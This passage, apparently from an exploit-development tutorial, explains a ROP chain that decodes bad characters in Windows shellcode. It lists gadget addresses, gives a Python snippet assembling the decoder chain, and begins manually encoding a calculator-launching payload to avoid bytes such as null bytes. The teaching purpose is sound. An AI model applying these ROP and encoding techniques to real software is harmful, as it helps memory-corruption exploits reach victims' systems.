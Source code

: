 	- After that we will subtract the value in `ecx` from `eax`, Which means if we have `-0x01` in `ecx`, It will add it to `eax` (e.x:`0x1`, As it's negative value and we are using `sub` instruction, Then negative and negative will result in `add` operation..
4. `0x505263f9: push eax ; pop esi ; pop ebx ; ret  ;  (1 found)`
	- Then we moving the value in `eax` to `esi`, By pushing `eax` it into the stack & pop it into `esi`, So now `esi` will point to the bad characters and We will provide dummy value into `ebx`.
5. `0x5053a0f5: pop eax ; ret  ;`
	- Moving to poping the decoding value into `eax`.
6. `0x5050626e: add byte [esi+0x3B], ah ; ret  ;`
	- Finally, Apply the decoding gadget.
7. `0x5051579a: add eax, ecx ; ret  ;`:
	- For adding the previous

# Manually Encoding/Decoding

After getting our gadget and make sure it doesn't has any bad characters, Which in my case are `"\x00\x09\x0a\x0b\x0c\x0d\x20"`. Now, Our full gadget is as the following:
```python
ROPDecoder = pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", negative_offset_value_to_shellcode)
ROPDecoder += pack("<L", 0x50533bf4) # sub eax, ecx ; ret  ; add the offset to eax
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", decoding_value)
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bbad character
```


## Encoding

Now, It's time to generate our shellcode, And for our testing case, We will use `Windows/exec` payload for now. And we will use it just to pop a calculator:

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/f99e01ab-7cf9-47b1-bd7f-66a8b96289c3)


We can notice donz of bad characters that will crash our exploit, So, When we comme to encoding bad characters manually we need to replace it with a value that not considered as a bad character. For example we can add `1` or subtract `1` from our bad character. Taking `\x00` as example if we add `1` to it, It will be `\x01` or subtract `1` it will be `\xff` which not consider a bad character in both cases. And then when we are decoding it, We will add also `1` or subtract `1`. But, In our case it won't be a good idea, As if we apply it for `\x09` it will turn to `\0x0a` if we added one. Also the same for `\x0a`, If we added one again or subtract one, It will turn into bad character. To fix this issue we will deal with it by adding random value into each bad character and see the results, For now the only bad characters that are exist in our shellcode are: `\x00x0a\x0c\x0d\x20`. As we mentioned before we can't add or subtract `1` in our case, Also the positive decoding value would result in NULL-Bytes, Then our random value can start from negative values from `0xff` till `0x01` as we can't use `0xff` (which is `-1`) or `0x01`, We would start with `0xfe`:
